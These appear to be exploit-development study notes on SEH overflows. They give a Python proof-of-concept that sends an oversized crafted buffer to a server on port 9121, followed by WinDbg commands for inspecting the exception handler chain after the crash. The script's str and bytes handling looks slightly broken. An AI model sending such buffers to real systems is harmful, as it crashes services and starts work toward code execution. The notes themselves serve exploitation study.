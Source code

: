 # SEH
The poc for this pow is the following 
```
#!/usr/bin/python

import sys 
import socket
from struct import pack

server = sys.argv[1]

port = 9121
size = 1000

inputBuffer = b"\x41" * size

header =  "\x75\x19\xba\xab"
header += "\x03\x00\x00\x00"
header += "\x00\x40\x00\x00"
header += pack('<I', len(inputBuffer))
header += pack('<I', len(inputBuffer))
header += pack('<I', ord(inputBuffer[-1]))


buf = header + inputBuffer


try:
    
    print ("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buf)
    s.close()

    print("Done !")

except:

    print("[-] Unable to communicate to target %s:%s" %(server,port)) 
```
## Understanding the SEH 
### Walk the exception list in windbg after crash
_EXCEPTION_REGISTRATION_RECORD structures is saved in the stack
```
!teb #take ExceptionList address

dt _EXCEPTION_REGISTRATION_RECORD 01c4fe1c #01c4fe1c will be the exception list address

#take the Next address

dt _EXCEPTION_REGISTRATION_RECORD 0x01c4ff54 #0x01c4ff54 will be the next address previously grabbed    

```
### List the current thread exception handler chain - Instead of the manual process (consider the last address shown as the handler address)
```
!exchain
```